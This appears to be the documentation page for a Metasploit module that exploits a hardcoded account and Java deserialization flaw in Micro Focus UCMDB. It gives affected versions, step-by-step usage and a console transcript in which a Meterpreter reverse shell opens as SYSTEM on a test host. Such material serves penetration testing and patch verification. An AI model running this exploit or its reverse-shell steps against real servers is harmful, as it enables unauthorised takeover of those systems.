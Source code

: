 ## Vulnerable Application

UCMDB is the vulnerable component, which is integrated into many Micro Focus products. MF have confirmed that the following are affected by the hardcoded account vulnerability:

* Operation Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions
* Application Performance Management versions: 9.51, 9.50 and 9.40 with uCMDB 10.33 CUP 3
* Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11

An additional number of applications are vulnerable to the Java deserialization. Note that this module leverages both vulnerabilities, so it should only work in the above.

Installation docs are available at:
* https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.

Both Linux and Windows installations are affected.

NOTE: At the time of writing this (24/01/2021), Metasploit ysoserial Linux payloads (except cmd/unix/generic) are broken!
Remove this comment once this all works, and change the default payload from 'cmd/unix/generic' to 'cmd/unix/reverse_python' in the module code.

All details about these vulnerabilities can be obtained from the advisory:
* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/multi/http/microfocus_ucmdb_unauth_deser`
4. `set rhost TARGET'
5. `set lhost YOUR_IP`
6. `set target 0|1`
7. `run`
8. You should get a shell.

## Scenarios

```
msf6 > use exploit/multi/http/microfocus_ucmdb_unauth_deser
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/microfocus_ucmdb_unauth_deser) > set rhost 10.0.0.100
rhost => 10.0.0.100
msf6 exploit(multi/http/microfocus_ucmdb_unauth_deser) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf6 exploit(multi/http/microfocus_ucmdb_unauth_deser) > check
[+] 10.0.0.100:8443 - The target is vulnerable.
msf6 exploit(multi/http/microfocus_ucmdb_unauth_deser) > run

[*] Started reverse TCP handler on 10.0.0.1:4444
[*] 10.0.0.100:8443 - Attacking Windows target
[+] 10.0.0.100:8443 - Succesfully authenticated and obtained our cookie!
[*] 10.0.0.100:8443 - Sending payload to /services/DataAcquisitionService
[+] 10.0.0.100:8443 - Success, shell incoming!
[*] Sending stage (175174 bytes) to 10.0.0.100
[*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.0.0.100:50733) at 2021-01-24 22:16:36 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 15244 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\HPBSM\ucmdb\bin>whoami
whoami
nt authority\system

C:\HPBSM\ucmdb\bin>
```
